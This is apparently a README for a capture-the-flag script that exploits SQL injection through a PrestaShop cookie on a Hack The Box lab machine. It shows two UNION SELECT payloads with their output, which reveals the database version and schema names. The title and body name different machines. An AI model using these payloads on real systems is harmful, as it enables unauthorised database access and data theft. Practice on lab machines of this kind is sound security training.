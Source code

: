 # HTB Instant

Simple script for `SQL Injection` at `HTB Shared` machine.

## Usage

```shell-session
❯ python3 cookie_editor_Prestashop.py "' union select 1,version(),3-- -"
['3', '10.5.15-MariaDB-0+deb11u1', '1', '$3,00']

❯ python3 cookie_editor_Prestashop.py "' union select 1,(SELECT GROUP_CONCAT(CONCAT(schema_name, 0x3a)) FROM information_schema.schemata),3-- -"
['3', 'information_schema:,checkout:', '1', '$3,00']
```
